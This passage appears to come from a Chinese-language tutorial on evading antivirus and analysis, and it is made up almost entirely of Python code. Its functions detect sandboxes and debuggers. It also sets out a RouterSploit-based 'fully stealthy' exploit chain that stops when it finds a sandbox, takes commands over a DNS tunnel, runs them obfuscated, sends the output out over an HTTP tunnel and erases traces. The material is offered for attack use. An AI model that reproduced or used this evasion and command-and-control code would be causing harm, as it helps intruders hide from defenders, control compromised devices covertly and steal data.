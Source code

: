 ```python
        return False
    
    @staticmethod
    def _check_network_environment():
        """检查网络环境"""
        try:
            import socket
            # 检查是否有互联网连接
            socket.create_connection(("8.8.8.8", 53), timeout=5)
            return False
        except:
            return True  # 无网络可能是沙箱
    
    @staticmethod
    def _check_debugger():
        """检查调试器"""
        try:
            import ctypes
            return ctypes.windll.kernel32.IsDebuggerPresent() != 0
        except:
            return False
```

---

## 六、完整免杀利用链示例

```python
from routersploit.core.exploit import *
from routersploit.core.http.http_client import HTTPClient

class FullyStealthExploit(HTTPClient):
    """完全免杀的漏洞利用链"""
    
    def __init__(self):
        self.obfuscator = CommandObfuscator()
        self.stealth_client = StealthHTTPClient()
        self.anti_analysis = AntiAnalysis()
        self.dns_tunnel = DNSTunneling()
        
        # 如果检测到沙箱，则停止执行
        if self.anti_analysis.detect_sandbox():
            print_error("Sandbox detected, aborting...")
            return
    
    def execute_fully_stealth(self):
        """完全隐蔽的执行流程"""
        
        # 阶段1: 初始侦察（隐蔽）
        system_info = self.gather_system_info()
        
        # 阶段2: 通过 DNS 隧道获取命令
        command = self.dns_tunnel.beacon_checkin(system_info)
        
        if command:
            # 阶段3: 执行命令（使用多种混淆技术）
            output = self.execute_obfuscated_command(command)
            
            # 阶段4: 通过 HTTP 隧道外传结果
            self.exfiltrate_data(output)
            
            # 阶段5: 清理痕迹
            self.clean_traces()
```